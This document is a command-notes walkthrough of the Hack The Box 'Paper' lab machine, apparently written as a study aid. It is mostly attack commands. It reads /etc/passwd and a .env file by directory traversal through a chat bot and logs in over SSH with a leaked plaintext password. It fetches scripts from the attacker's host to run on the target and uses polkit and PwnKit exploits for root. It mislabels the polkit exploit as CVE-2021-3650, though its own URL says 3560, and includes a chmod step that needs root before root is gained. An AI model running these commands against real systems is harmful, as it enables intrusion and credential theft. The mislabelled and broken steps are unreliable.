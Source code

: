 ## HTB: Paper - Command Notes

### Recon
```bash
nmap -p- --min-rate 10000 10.10.11.143
nmap -p 22,80,443 -sCV 10.10.11.143
```

### Directory/Subdomain Discovery
```bash
feroxbuster -u http://office.paper
wfuzz -u http://office.paper -H "Host: FUZZ.office.paper" \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 199691
```

### WordPress Enumeration
```bash
wpscan --url http://office.paper --api-token $WPSCAN_API
```

### CVE-2019-17671 - View Draft Posts
```bash
# Visit in browser:
http://office.paper/?static=1
```

### Rocket.Chat - Directory Traversal via recyclops Bot
```
# In DM to @recyclops
list ../../../
file ../../../etc/passwd
file ../../../hubot/.env
```

### Credential Discovery & SSH Access
```bash
# Found creds in .env:
# dwight:Queenofblad3s!23

crackmapexec ssh 10.10.11.143 -u dwight -p 'Queenofblad3s!23'

sshpass -p 'Queenofblad3s!23' ssh dwight@10.10.11.143
```

### LinPEAS Enumeration
```bash
git clone https://github.com/carlospolop/PEASS-ng
cd PEASS-ng/linPEAS
python3 -m builder.linpeas_builder
python3 -m http.server 80

# On target:
wget http://10.10.14.6/linpeas.sh
bash linpeas.sh
```

### CVE-2021-3650 (Polkit User Creation)
```bash
# Host side:
wget https://raw.githubusercontent.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation/main/cve-2021-3650.sh
python3 -m http.server 80

# On Paper:
wget http://10.10.14.6/cve-2021-3650.sh
bash cve-2021-3650.sh

# Login to new user
su - secnigma
# Password: secnigmaftw
sudo bash
```

### PwnKit - (CVE-2021-4034)
```bash
# On Paper:
ls -l /usr/bin/pkexec
# If not setuid:
chmod 4755 /usr/bin/pkexec

# Compile exploit:
cc -Wall exploit.c -o exploit

# Run exploit:
./exploit
```

### Flags
```bash
cat /home/dwight/user.txt
cat /root/root.txt
```